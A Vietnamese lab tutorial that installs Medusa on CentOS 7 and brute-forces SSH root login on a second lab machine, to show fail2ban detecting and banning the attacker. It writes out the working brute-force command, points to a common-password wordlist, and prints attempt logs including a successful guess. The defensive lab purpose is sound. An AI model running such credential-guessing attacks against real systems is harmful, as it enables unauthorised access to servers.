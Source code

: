 # Brute Force Password với Medusa

Cấu hình 2 máy CentOS 7, trong đó 1 máy `Máy 1` cài fail2ban và 1 máy `Máy 2` cài medusa.

**Cách thức tiến hành:** `Máy 2` sẽ tiến hành quét password theo dịch vụ SSH của `Máy 1`. Ta sẽ theo dõi việc công việc quét tại `Máy 2` diễn ra như thế nào và bao lâu thì **Fail2ban** sẽ tiến hành block IP của `Máy 2`.

Tham khảo cài đặt Fail2ban trên CentOS7 [tại đây](https://github.com/quanganh1996111/Linux-Tutorial/blob/master/Linux-Onjob%20Trainning/Security%20and%20Firewall/Fail2ban_with_CentOS7.md)

## 1. Cài đặt Medusa trên CentOS 7

### Bước 1: Cài đặt một số gói cần thiết

```
[root@localhost ~]# yum -y update
[root@localhost ~]# yum install epel-release
```

### Bước 2: Cài đặt gói Medusa

```
[root@localhost ~]# yum install medusa
```

## 2. Cách thức sử dụng Medusa

Sử dụng lệnh `medusa -h` để hiển thị các lựa chọn mà ta muốn sử dụng

```
Syntax: Medusa [-h host|-H file] [-u username|-U file] [-p password|-P file] [-C file] -M module [OPT]
  -h [TEXT]    : Target hostname or IP address
  -H [FILE]    : File containing target hostnames or IP addresses
  -u [TEXT]    : Username to test
  -U [FILE]    : File containing usernames to test
  -p [TEXT]    : Password to test
  -P [FILE]    : File containing passwords to test
  -C [FILE]    : File containing combo entries. See README for more information.
  -O [FILE]    : File to append log information to
  -e [n/s/ns]  : Additional password checks ([n] No Password, [s] Password = Username)
  -M [TEXT]    : Name of the module to execute (without the .mod extension)
  -m [TEXT]    : Parameter to pass to the module. This can be passed multiple times with a different parameter each time and they will all be sent to the module (i.e. -m Param1 -m Param2, etc.)
  -d           : Dump all known modules
  -n [NUM]     : Use for non-default TCP port number
  -s           : Enable SSL
  -g [NUM]     : Give up after trying to connect for NUM seconds (default 3)
  -r [NUM]     : Sleep NUM seconds between retry attempts (default 3)
  -R [NUM]     : Attempt NUM retries before giving up. The total number of attempts will be NUM + 1.
  -c [NUM]     : Time to wait in usec to verify socket is available (default 500 usec).
  -t [NUM]     : Total number of logins to be tested concurrently
  -T [NUM]     : Total number of hosts to be tested concurrently
  -L           : Parallelize logins using one username per thread. The default is to process the entire username before proceeding.
  -f           : Stop scanning host after first valid username/password found.
  -F           : Stop audit after first valid username/password found on any host.
  -b           : Suppress startup banner
  -q           : Display module's usage information
  -v [NUM]     : Verbose level [0 - 6 (more)]
  -w [NUM]     : Error debug level [0 - 10 (more)]
  -V           : Display version
  -Z [TEXT]    : Resume scan based on map of previous scan
```

## 3. Tiến hành Brute Force Password

Có thể tải file chứa **12000 mật khẩu** hay sử dụng [tại đây](https://github.com/danielmiessler/SecLists/blob/master/Passwords/probable-v2-top12000.txt)

Tạo 1 file `password.txt` có chứa các mật khẩu thông dụng, dễ bị quét ra.

`[root@localhost ~]# vi password.txt`

Tiến hành quét `Máy 1` có sử dụng fail2ban bằng lệnh sau:

`[root@localhost ~]# medusa -h 172.16.2.194 -u root -P password.txt -M ssh`

Kết quả nhận được như sau:

```
ACCOUNT CHECK: [ssh] Host: 172.16.2.194 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: 123456 (1 of 235 complete)
ACCOUNT CHECK: [ssh] Host: 172.16.2.194 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: password (2 of 235 complete)
ACCOUNT CHECK: [ssh] Host: 172.16.2.194 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: 123456789 (3 of 235 complete)
ACCOUNT CHECK: [ssh] Host: 172.16.2.194 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: 12345678 (4 of 235 complete)
ACCOUNT CHECK: [ssh] Host: 172.16.2.194 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: 12345 (5 of 235 complete)
ACCOUNT CHECK: [ssh] Host: 172.16.2.194 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: qwerty (6 of 235 complete)
ACCOUNT CHECK: [ssh] Host: 172.16.2.194 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: 123123 (7 of 235 complete)
ACCOUNT CHECK: [ssh] Host: 172.16.2.194 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: 111111 (8 of 235 complete)
ACCOUNT CHECK: [ssh] Host: 172.16.2.194 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: abc123 (9 of 235 complete)
ACCOUNT CHECK: [ssh] Host: 172.16.2.194 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: 1234567 (10 of 235 complete)
ACCOUNT CHECK: [ssh] Host: 172.16.2.194 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: dragon (11 of 235 complete)
ACCOUNT CHECK: [ssh] Host: 172.16.2.194 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: 1q2w3e4r (12 of 235 complete)
ACCOUNT CHECK: [ssh] Host: 172.16.2.194 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: sunshine (13 of 235 complete)
ACCOUNT CHECK: [ssh] Host: 172.16.2.194 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: 654321 (14 of 235 complete)
ACCOUNT CHECK: [ssh] Host: 172.16.2.194 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: master (15 of 235 complete)
```

Theo như kết quả nhận được, `Medusa` đã quét đến password thứ 15 thì không được nữa. Ta kiểm tra `log` của `fail2ban` tại `Máy 1`.

```
[root@localhost ~]# tail -F /var/log/fail2ban.log
2020-08-21 14:15:21,207 fail2ban.filter         [1822]: INFO    [sshd] Found 172.16.2.193 - 2020-08-21 14:15:21
2020-08-21 14:15:23,054 fail2ban.filter         [1822]: INFO    [sshd] Found 172.16.2.193 - 2020-08-21 14:15:23
2020-08-21 14:15:24,762 fail2ban.filter         [1822]: INFO    [sshd] Found 172.16.2.193 - 2020-08-21 14:15:24
2020-08-21 14:15:27,281 fail2ban.filter         [1822]: INFO    [sshd] Found 172.16.2.193 - 2020-08-21 14:15:27
2020-08-21 14:15:27,285 fail2ban.filter         [1822]: INFO    [sshd] Found 172.16.2.193 - 2020-08-21 14:15:27
2020-08-21 14:15:27,286 fail2ban.filter         [1822]: INFO    [sshd] Found 172.16.2.193 - 2020-08-21 14:15:27
2020-08-21 14:15:28,958 fail2ban.filter         [1822]: INFO    [sshd] Found 172.16.2.193 - 2020-08-21 14:15:28
2020-08-21 14:15:31,021 fail2ban.filter         [1822]: INFO    [sshd] Found 172.16.2.193 - 2020-08-21 14:15:31
2020-08-21 14:15:31,497 fail2ban.actions        [1822]: NOTICE  [sshd] Ban 172.16.2.193
2020-08-21 14:15:33,496 fail2ban.filter         [1822]: INFO    [sshd] Found 172.16.2.193 - 2020-08-21 14:15:33
```

Ta thấy `log` cảnh báo đã ban IP **172.16.2.193** của `Máy 2`. Kiểm tra trên firewall của `Máy 1`:

```
[root@localhost ~]# iptables -L
Chain INPUT (policy ACCEPT)
target     prot opt source               destination
f2b-SSH    tcp  --  anywhere             anywhere             tcp dpt:ssh

Chain FORWARD (policy ACCEPT)
target     prot opt source               destination

Chain OUTPUT (policy ACCEPT)
target     prot opt source               destination

Chain f2b-SSH (1 references)
target     prot opt source               destination
REJECT     all  --  172.16.2.193         anywhere             reject-with icmp-port-unreachable
RETURN     all  --  anywhere             anywhere
```

Địa chỉ IP **172.16.2.193** đã bị block.

Trên `Máy 2` thử SSH vào `Máy 1` thì nhận được thông báo k thể kết nối mặc dù vẫn ping được bình thường.

```
[root@localhost ~]# ping 172.16.2.194
PING 172.16.2.194 (172.16.2.194) 56(84) bytes of data.
64 bytes from 172.16.2.194: icmp_seq=1 ttl=64 time=0.381 ms
64 bytes from 172.16.2.194: icmp_seq=2 ttl=64 time=0.392 ms
^C
--- 172.16.2.194 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1000ms
rtt min/avg/max/mdev = 0.381/0.386/0.392/0.020 ms
[root@localhost ~]# ssh root@172.16.2.194
ssh: connect to host 172.16.2.194 port 22: Connection refused
```

Để unban IP của `Máy 2`, ta sử dụng lệnh:

```
[root@localhost ~]# fail2ban-client set sshd unbanip 172.16.2.193
```

Từ `Máy 2` SSH lại và thành công:

```
[root@localhost ~]# ssh root@172.16.2.194
The authenticity of host '172.16.2.194 (172.16.2.194)' can't be established.
ECDSA key fingerprint is SHA256:bVTZ8dZ6oPko8Qc0lvA5ntQwU7XKM2qtvfoK/ZLp96g.
ECDSA key fingerprint is MD5:37:d6:c5:de:fd:b4:1f:7f:01:14:bd:20:5b:a1:d2:86.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '172.16.2.194' (ECDSA) to the list of known hosts.
root@172.16.2.194's password:
Last failed login: Fri Aug 21 14:15:33 +07 2020 from 172.16.2.193 on ssh:notty
There were 15 failed login attempts since the last successful login.
Last login: Fri Aug 21 11:48:55 2020 from 172.16.2.179
```

### Trường hợp Medusa quét thành công

```
[root@localhost ~]# medusa -h 172.16.2.194 -u root -P password.txt -M ssh
Medusa v2.1.1 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

ACCOUNT CHECK: [ssh] Host: 172.16.2.194 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: 123456 (1 of 235 complete)
ACCOUNT CHECK: [ssh] Host: 172.16.2.194 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: password (2 of 235 complete)
ACCOUNT CHECK: [ssh] Host: 172.16.2.194 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: 123456789 (3 of 235 complete)
ACCOUNT CHECK: [ssh] Host: 172.16.2.194 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: 12345678 (4 of 235 complete)
ACCOUNT CHECK: [ssh] Host: 172.16.2.194 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: admin@123 (5 of 235 complete)
ACCOUNT FOUND: [ssh] Host: 172.16.2.194 User: root Password: ********* [SUCCESS]
```

## Tài liệu tham khảo

https://news.cloud365.vn/brute-force-password-su-dung-medusa/

https://github.com/quanganh1996111/Linux-Tutorial/blob/master/Linux-Onjob%20Trainning/Security%20and%20Firewall/Brute%20Force/Brute%20Force%20Attack.md

https://github.com/quanganh1996111/Linux-Tutorial/blob/master/Linux-Onjob%20Trainning/Security%20and%20Firewall/Fail2ban_with_CentOS7.md